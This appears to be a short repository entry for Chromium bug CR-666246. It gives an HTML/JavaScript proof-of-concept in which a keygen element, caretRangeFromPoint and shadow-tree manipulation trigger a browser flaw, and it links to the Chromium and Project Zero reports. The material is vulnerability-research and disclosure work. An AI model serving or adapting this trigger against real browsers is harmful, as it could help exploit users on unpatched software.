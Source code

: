 # CR-666246

## PoC

```html
<keygen id="keygen_element" style="position:absolute; height: 100px; width: 100px;">
<script>
var range = document.caretRangeFromPoint(50, 50);
var shadow_tree_container = range.commonAncestorContainer;
shadow_tree_container.prepend("foo");
keygen_element.disabled = true;
</script>
```

## Reference

+ [Chromium](https://bugs.chromium.org/p/chromium/issues/detail?id=666246)
+ [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=994)
